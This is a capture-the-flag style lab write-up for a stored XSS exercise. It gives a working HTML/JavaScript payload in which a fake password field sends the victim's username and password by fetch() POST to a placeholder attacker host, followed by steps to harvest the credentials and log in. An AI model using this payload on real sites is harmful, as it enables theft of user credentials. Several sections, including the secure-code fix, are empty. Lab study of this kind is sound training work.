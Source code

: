 ## Exploiting cross-sute scripting to capture passwords

### Objective:
This lab contains a **Stored XSS** vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

### Security Weakness:

### Exploitation Methodology:
1. Open Burp Suite Professional and navigate to the Collaborator tab.
2. Copy the unique Burp Collaborator payload to your clipboard by clicking "Copy to Clipboard."
3. Craft the following payload and insert your Burp Collaborator subdomain in the designated location:
```html
<input name="username" id="username">
<input type="password" name="password" onchange="if(this.value.length) fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
	   method: 'POST',
	   mode: 'no-cors',
	   body: username.value + ':' + this.value
});">
```
4. Understanding **`mode: 'no-cors'`**
	1. By default, when making a cross-origin request (a request to a different domain), the browser enforces the Same-Origin Policy, which restricts the request due to security reasons.
	2. the purpose of using **`mode: 'no-cors'`** is to ensure that the request is sent without being blocked by the Same-Origin Policy. The code is primarily focused on triggering the request and capturing the victim's credentials, rather than processing the response.
5. When a user views the comment, the script will trigger a POST request containing the victim's username and password to your Burp Collaborator subdomain.
6. Return to the Collaborator tab in Burp Suite and click "Poll now." You should observe an HTTP interaction. If no interactions are displayed, wait a few seconds and try again.
7. Take note of the victim's username and password in the POST body.
8. Utilize the obtained credentials to log in as the victim user.

### Insecure Code:

### Secure Code:
